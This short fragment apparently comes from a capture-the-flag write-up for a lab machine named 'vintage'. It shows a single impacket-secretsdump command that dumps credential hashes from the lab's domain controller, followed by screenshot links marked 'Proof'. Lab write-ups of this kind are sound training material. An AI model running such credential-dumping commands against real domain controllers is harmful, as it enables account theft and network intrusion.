impacket-secretsdump -k dc01.vintage.htb
Proof
